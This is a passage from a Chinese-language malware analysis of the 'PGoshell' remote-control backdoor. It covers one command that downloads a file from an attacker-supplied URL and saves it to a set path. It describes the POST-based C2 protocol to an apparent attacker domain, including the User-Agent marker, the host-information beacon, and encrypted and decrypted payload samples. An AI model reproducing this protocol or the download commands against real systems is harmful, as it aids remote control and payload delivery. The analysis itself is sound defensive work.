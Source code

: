 通过分析，发现uwvtjpyvatmd远控指令功能为外链URL下载文件，梳理uwvtjpyvatmd远控指令的命令格式如下：  
```
uwvtjpyvatmd|https://192.168.65.1/uwvtjpyvatmd|C:\Users\admin\Desktop\testfile.txt

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCvqxU0gvC1VyTqdia3j2RXsvLays0r7K1ZMFwvia0SPqE4kiczae1ZIVkw/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUClnSyNRk3HGLfdmzrib0njCHoTRn4yG0qAHfTKHxicaTyLLmnApaAu0tQ/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCVqcrapQZY6ZTauhPnxeKzryfiaj5xd280BnX2cf2hTDvPcRd4JfomLQ/640?wx_fmt=png&from=appmsg "")  
#### 通信模型剖析  
  
梳理uwvtjpyvatmd命令的通信模型如下：  
- POST请求https://cartmizer.info/lkqnzntawldqjlwdxivsnemw地址，User-Agent为固定的QllXjxbyEvMuARVOztDiSZDNtQQb值，用于检验是否为PGoshell的通信数据；  
  
- POST请求https://cartmizer.info/lkqnzntawldqjlwdxivsnemw地址，载荷中携带主机信息，用于获取远控指令；  
  
- POST请求响应包载荷中携带远控指令  
  
```
#原始载荷数据
y8HvHa/kzvENLt3+|1sLtGf+7mLZVaJ6rN3kicO0F5K0lPIcWUtD6HUQdahk=|/YzFPLbxxfQwO9T3aC9QAr1YvvY/O60WXdP3DUwFYlOELq4=|

#第一层解密
uwvtjpyvatmd|https://192.168.65.1/uwvtjpyvatmd|C:\Users\admin\Desktop\testfile.txt|

```  
- 根据远控指令外链URL下载文件，并保存至指定路径；  
  
- 当POST请求载荷中携带形如{"cr":"","res":"","ct":"", "tid":"", "suc":""}格式的载荷数据时，说明远控指令执行完毕  
  
```
#原始载荷数据
xZT6G-eulbZOdpLoZDIufPp0jPgWG70AQNjlOlImPinDN5kvcf4XtAyuEeHySA8QqgwZ_Dmq6QkJ4AyhmnqUi6b-GFBPLKCMHfUw47iu-WHCXqLoZKHAF99FxN9sOiWle0vzqHcxKvxcrclJ

#第一层解密
{"cr":"1","res":"_YzFPLbxxfQwO9T3aC9QAr1YvvY_O60WXdP3DUwFYlOELq4=","ct":"uwvtjpyvatmd", "tid":"", "suc":"1"}

#第二层解密
{"cr":"1","res":"C:\Users\admin\Desktop\testfile.txt","ct":"uwvtjpyvatmd", "tid":"", "suc":"1"}

```  
### ppkjidlmspplloff  
  